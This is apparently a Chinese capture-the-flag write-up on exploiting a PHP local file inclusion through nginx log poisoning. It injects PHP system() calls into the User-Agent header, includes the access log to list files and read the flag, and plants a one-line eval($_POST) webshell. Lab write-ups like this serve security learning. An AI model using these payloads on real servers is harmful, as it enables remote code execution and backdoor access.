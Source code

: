 过滤php,data,：.

![image-20240425151235119](D:\Infiltration\笔记\note\图片\image-20240425151235119.png)

#### 解法一：包含日志



修改ua头

```
<?php system("ls")?>
```

![image-20240425154717643](D:\Infiltration\笔记\note\图片\image-20240425154717643.png)





修改ua头

```
<?php system('ls');?>
```

![image-20240425160524009](D:\Infiltration\笔记\note\图片\image-20240425160524009.png)

包含日志，看到目录文件：fl0g.php index.php

```
file=/var/log/nginx/access.log
```

![image-20240425160453641](D:\Infiltration\笔记\note\图片\image-20240425160453641.png)

写入查看flag代码到日志

```
<?php system('tac fl0g.php');?>
```

![image-20240425160654285](D:\Infiltration\笔记\note\图片\image-20240425160654285.png)

包含日志，得到flag

![image-20240425160723957](D:\Infiltration\笔记\note\图片\image-20240425160723957.png)



#### 解法二：包含日志getshell

ua头中修改为一句话木马

```
<?php eval($_POST['pass']);?>
```

![image-20240425165250668](D:\Infiltration\笔记\note\图片\image-20240425165250668.png)


